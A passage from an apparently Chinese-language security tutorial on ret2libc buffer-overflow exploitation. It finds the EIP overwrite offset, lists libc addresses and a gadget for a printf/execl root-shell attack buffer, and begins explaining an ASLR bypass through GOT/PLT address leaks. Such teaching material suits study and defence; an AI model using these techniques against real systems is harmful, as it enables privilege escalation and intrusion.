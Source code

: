 显然，目标程序去执行0x61413661的地址时发生错误，这个地址就是被我们使用攻击buffer覆盖后的EIP地址，现在我们使用pattern_offset.rb查找这个地址在攻击buffer中的位置：

```
chouchou@ubuntu:~/security/flaws/return2libc$ pattern_offset.rb 0x61413661 250
[*] Exact match at offset 19

```

好了，现在我们已经确定了用于覆盖的EIP的数据在攻击buffer中的偏移值为19，下面就开始精心构造攻击buffer了。

### 4.2 构建攻击buffer

从前文的分析知道，要使用execl完成基于ret2libc的root提权攻击，我们需要实现搜集如下数据信息：

1.  printf函数的地址，以及printf函数要使用的字符串’%5$n’的地址；
2.  execl函数的地址，以及该函数使用的’/bin/sh’字符串的地址；
3.  exit函数的地址；
4.  POP/RET 指令块的地址。
    
    Printf 0xb7e63280 Execl 0xb7ecbec0 Exit 0xb7e491e0 ‘%5$n’ 0xbffff2b6 ‘/bin/sh’ 0xbffffa6e POP/RET 0x080484af Addr of NULL 0xbfffefc9+18+4*7=0xbfffeff7
    

获取了这些数据之后，将它们各自安插到图3-1的合适位置即可构造对应的攻击buffer。

```
19字节overflow| 0xb7e63280 | 0x080484af | 0xbffff284 | 
   0xb7ecbec0 | 0xb7e491e0 | 0xbffffeea | 0xbffffeea | 0xbfffeff7

```

0x05 对抗ASLR
=====

鉴于ASLR机制只是将既然stack，heap以及共享库文件的起始地址进行了随机化，而文件内部各部分数据之间的偏移值却是固定不变的，所以攻击的整体思路如下：

先泄漏出libc.so某些函数在内存中的地址，然后再利用泄漏出的函数地址根据偏移量计算出system()函数等其他函数的地址，字符串地址类似。

那么怎么才能泄露出Libc库文件的地址呢？考虑到程序本身在内存中的地址并不是随机的，所以只要将返回值设置到程序本身所处的内存段就可以了，当然，**前提是我们必须获取目标系统中的libc.so库文件**。Linux内存随机化分布图如下图所示：

![p11](http://drops.javaweb.org/uploads/images/91d25eb6a3136d7e15e2555cdb3338c71f25d1b3.jpg)

整体攻击思路：

1.观察目标程序，查看其本身使用的、处于Libc库文件的库函数，常见的函数有write, read等；

观察方法很简单：

1) 首先使用`objdump –R`命令查看目标文件的**动态重定位项**，也就是常说的**GOT表项**：

![p12](http://drops.javaweb.org/uploads/images/7eabee3c6d605c278bbd16af05994d80289d9c49.jpg)

2) 然后使用`objdump –j .glt –d`命令反编译目标文件的**plt表**：

```
Disassembly of section .plt:

08048300 <read@plt-0x10>:
 8048300:   ff 35 04 a0 04 08       pushl  0x804a004
 8048306:   ff 25 08 a0 04 08       jmp    *0x804a008
 804830c:   00 00                   add    %al,(%eax)
    ...

08048310 <read@plt>:
 8048310:   ff 25 0c a0 04 08       jmp    *0x804a00c
 8048316:   68 00 00 00 00          push   $0x0
 804831b:   e9 e0 ff ff ff          jmp    8048300 <_init+0x30>

08048320 <__gmon_start__@plt>:
 8048320:   ff 25 10 a0 04 08       jmp    *0x804a010
```